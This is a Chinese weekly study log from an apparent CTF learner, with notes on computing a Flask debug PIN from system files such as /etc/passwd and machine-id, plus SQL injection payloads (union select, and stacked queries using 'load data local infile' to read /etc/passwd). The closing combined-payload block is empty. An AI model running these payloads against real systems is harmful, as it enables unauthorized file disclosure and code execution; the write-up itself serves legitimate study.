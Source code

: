 <a name="RJC3l"></a>
# 完成事项
- JS原型链污染等漏洞学习（game Week 3 WebVPN复现）
- Flask算pin码+sql
- Java基础入门
<a name="nUbUX"></a>
# 未完成事项

- 继续了解JMM，JVM内存机制
<a name="kfaNm"></a>
# 如何解决未完成事项

- 周末学
<a name="N3Kq7"></a>
# 下周待做事项

- Java内存学习
<a name="nwngF"></a>
# 本周学习的知识分享
<a name="j4vWP"></a>
## Flask算Pin，SQL高版本读取文件
需要

- username 读 /etc/passwd进行猜测
- modname 一般是flask.app
- getattr(app, "__name__", app.__class__.__name__)  一般是Flask
- moddir flask库下app.py的绝对路径  报错获取
- int(uuid,16)    即 当前网络的mac地址的十进制数
- get_machine_id()     新版本是按 /etc/machine-id、/proc/sys/kernel/random/boot_id 顺序 从中读到一个值后立即break，然后和/proc/self/cgroup中的id值拼接，使用拼接的值来计算pin码

新建POST![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1710160194395-7ebf4c81-21a2-4ae0-96f7-2787d00993a8.png#averageHue=%23e5e5e5&clientId=ued75cd50-e471-4&from=paste&height=770&id=u6fbe28bc&originHeight=1539&originWidth=2571&originalType=binary&ratio=1&rotation=0&showTitle=false&size=189064&status=done&style=none&taskId=uf2798eb6-67b0-475e-95e8-96a2c476519&title=&width=1285.5)<br />note_id报错部分源码，有sql注入<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1710158826615-e743ee2b-cacf-4202-8113-2273970d12fc.png#averageHue=%23fcfbfa&clientId=u5d1567c6-10fb-4&from=paste&height=278&id=u1627c5d0&originHeight=556&originWidth=1544&originalType=binary&ratio=1&rotation=0&showTitle=false&size=60723&status=done&style=none&taskId=u0e766c64-22a4-4922-9d98-d9054289262&title=&width=772)<br />回显点4，5<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1710160244532-f1b0cde4-0b3b-4545-b42d-7c327073d911.png#averageHue=%23848484&clientId=ued75cd50-e471-4&from=paste&height=770&id=u4b9a261d&originHeight=1539&originWidth=2571&originalType=binary&ratio=1&rotation=0&showTitle=false&size=308847&status=done&style=none&taskId=u2ace283c-264a-4818-b33b-409e92d05b0&title=&width=1286)<br />1'union select 1,2,3,database(),version()%23<br />![image.png](https://cdn.nlark.com/yuque/0/2024/png/39135006/1710160350079-6e7fb590-64bf-476a-b9e1-a17e2329f2b0.png#averageHue=%238b8b8b&clientId=ued75cd50-e471-4&from=paste&height=255&id=ub39670ab&originHeight=509&originWidth=1845&originalType=binary&ratio=1&rotation=0&showTitle=false&size=74067&status=done&style=none&taskId=u8c4d987c-357f-445f-a428-43882185141&title=&width=922.5)<br />看源码有{"multi":True}，存在堆叠注入<br />高版本读文件：无load_file但是有load data local infile into table 
```sql
;create table temp(data varchar(1000)); %23 #创建一个1000字符容量的新表
;load data local infile "/etc/passwd" into table ctf.temp; %23 #将文件内容写入表中
union select 1,2,3,group_concat(data),5 from ctf.temp;%23 #读表
```
连起来就是：
```sql
```